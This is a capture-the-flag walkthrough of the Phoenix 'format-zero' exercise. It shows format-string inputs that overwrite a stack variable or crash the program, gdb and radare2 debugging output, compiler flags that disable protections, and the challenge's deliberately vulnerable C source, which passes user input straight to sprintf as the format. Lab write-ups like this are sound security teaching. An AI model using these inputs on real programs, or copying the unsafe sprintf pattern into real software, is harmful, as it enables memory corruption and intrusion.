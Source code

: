 # Phoenix format-zero
https://exploit.education/phoenix/format-zero/
### Result
`Well done, the 'changeme' variable has been changed!`
### Setup
```
https://hub.docker.com/r/duckll/ctf-box/
docker pull duckll/ctf-box
docker run -idt --name ctf duckll/ctf-box
```
The above setup does not use `privileged` mode.  I have to confirm but that seems to bring in `ASLR`.  This makes debugging a little tricker as memory addresses ( like the `Stack` ) change every time you run the program.  This happens even if you type: `gef➤  set disable-aslr`:
```
gef➤  r
Starting program: /root/format_zero
warning: Error disabling address space randomization: Operation not permitted
```
### Run container
```
docker start ctf
docker container exec -it ctf bash
```

### Background
I tried a different setup for this challenge. I used a Docker container ( in `non-privileged` mode). This gave some excellent out-of-the-box stuff like `gdb's enhanced debugger`, nice `vi` color coding, `gcc` for compiling code, etc.

Next compile the code.  I didn't want the `compiler` to auto-insert `overflow` defences or add `ASLR`:

`gcc -fno-stack-protector -z execstack -no-pie -o format_zero format_zero.c`

You get a big clue of the issue when you compile the code.  Where is the ` format argument`?  For example `%s` (string) or `%d` (integer).
```
warning: format not a string literal and no format arguments [-Wformat-security]
sprintf(locals.dest, buffer);
```
##### What C API to focus on?
```
[0x00400560]> ii
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x00400510 GLOBAL FUNC       puts
2   0x00400520 GLOBAL FUNC       errx
3   0x00000000 GLOBAL FUNC       __libc_start_main
4   0x00400530 GLOBAL FUNC       fgets
5   0x00000000 WEAK   NOTYPE     __gmon_start__
6   0x00400540 GLOBAL FUNC       sprintf
7   0x00400550 GLOBAL FUNC       exit
```

`sprintf` was infamous for a `format string` vulnerability.  For example, you could print a certain `stack` with:

```
/* print the Stack */
printf ("%08x %08x %08x %08x %08x\n");
```
#### man snprintf

> int snprintf(char * restrict str, size_t size, const char * restrict format, ...);
>
> sprintf(), snprintf(), vsprintf(), and vsnprintf() write to
>      the character string str

The `...` tell you it is `variadic function`.  You can pass in any number of arguments.

##### Format String Exploitation
I got lucky with my first guess:
```
root@b8d0276ae4c8:~# ./format_zero
Welcome to https://exploit.education
%p %p %p
Well done, the 'changeme' variable has been changed!
```
Or a better way to pass it in, as run-time:
```
echo "%p %p" | ./format_zero
Well done, the 'changeme' variable has been changed!
```
Now try to find the `segmentation fault`:
```
python -c 'print "%p"*4' | ./format_zero
Well done, the 'changeme' variable has been changed!
```
No luck, let's increase the number of `format arguments`:
```
python -c 'print "%p"*11' | ./format_zero
Segmentation fault
```

### Decompile
After some renaming of variables and settings Types, the `decompile view` in `Ghidra` is easy to read:

![ghidra_relabelled_main](/images/2020/12/ghidra-relabelled-main.png)

### Debugging the normal flow
Ok, first let's make it easier to see what is happening on the `Stack`.
```
locals.changeme = 99;
```
Now get gdb setup:
```
gef➤  b *main + 113
gef➤  run
< enter "AAAA" when prompted >
```
Breakpoint fires here:
```
gef➤  x/6i $pc-5
   0x4006b3 <main+108>:	call   0x400540 <sprintf@plt>
=> 0x4006b8 <main+113>:	mov    eax,DWORD PTR [rbp-0x10]
   0x4006bb <main+116>:	test   eax,eax
   0x4006bd <main+118>:	je     0x4006cd <main+134>
   0x4006bf <main+120>:	lea    rdi,[rip+0x102]        # 0x4007c8
   0x4006c6 <main+127>:	call   0x400510 <puts@plt>
```
To find `locals.changeme = 99` on the `Stack`:
```
gef➤  find $sp, +96, 99
0x7ffe76d25c50
1 pattern found.
```
Then check the value:
```
gef➤  x/d 0x7ffe76d25c50
0x7ffe76d25c50:	99
```
Print stack from Stack Pointer with: `x/24w $sp` ( works on both `x32/x64`):
```
gef➤  x/24w $sp
0x7ffd32b6cfe0:	0x32b6d118	0x00007ffd	0x00f0b5ff	0x00000001
0x7ffd32b6cff0:	0x41414141	0x0000000a	0x0040073d	0x00000000    <--  user input "AAAA\n"
0x7ffd32b6d000:	0x41414141	0x0000000a	0x00000000	0x00000000
0x7ffd32b6d010:	0x004006f0	0x00000000	0x00400560	0x00000000
0x7ffd32b6d020:	0x00000063	0x00007ffd	0x00000000	0x00000000     <-- locals.changeme
0x7ffd32b6d030:	0x004006f0	0x00000000	0x31325b97	0x00007f1c
```

`gef` helpfully tells you that the `RSI register` is pointing to that address which taints the inputted string: `AAAA`
```
$rsi   : 0x00007ffd85571c20  →  0x0000000a41414141 ("AAAA"?)
```
Or, you can use:
```
gef➤  x/s $rsi
0x7ffd85571c20:	"AAAA\n"
```

### Debugging the altered code flow
The instructions don't change.  
```
gef➤  r
Starting program: /root/format_zero
warning: Error disabling address space randomization: Operation not permitted
Welcome to brought to you by https://exploit.education
%p %p %p
```
But the register has changed:
```
$rsi   : 0x00007fff02355878  →  0x000000000040000a
```
Printing the stack:
```
gef➤  x/24w $sp
0x7ffed7a558c0:	0xd7a559f8	0x00007ffe	0x00f0b5ff	0x00000001
0x7ffed7a558d0:	0x25207025	0x70252070	0x0040000a	0x00000000
0x7ffed7a558e0:	0x66377830	0x37646566	0x38353561	0x30203064
0x7ffed7a558f0:	0x30376178	0x30323532	0x35323037	0x30373032
0x7ffed7a55900:	0x65783020	0x37363339	0x00000a39	0x00000000
0x7ffed7a55910:	0x004006f0	0x00000000	0x4f930b97	0x00007fe8
```
Now look for `locals.changeme = 99`.  It has been written over:
```
gef➤  find $sp, +96, 99
Pattern not found.
```
What happened?  

https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf
> So what happens to the stack when a format string is specified with no corresponding variable on stack??!!  It will start to pop data off the stack from where the variables should have been located.

##### Source code
```

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
  char buffer[16];

  printf("%s\n", BANNER);

  if (fgets(buffer, sizeof(buffer) - 1, stdin) == NULL) {
    errx(1, "Unable to get buffer");
  }
  buffer[15] = 0;

  locals.changeme = 0;

  sprintf(locals.dest, buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```
